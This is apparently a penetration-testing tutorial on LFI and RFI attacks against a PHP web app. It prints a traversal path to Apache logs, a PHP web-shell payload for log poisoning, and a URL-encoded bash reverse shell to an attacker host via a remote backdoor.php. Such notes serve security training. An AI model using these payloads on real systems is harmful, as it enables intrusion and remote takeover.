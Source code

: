 # File Inclusion Vulnerabilities: LFI and RFI RCE with URL encoding

## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://example.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://example.com/meteor/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.


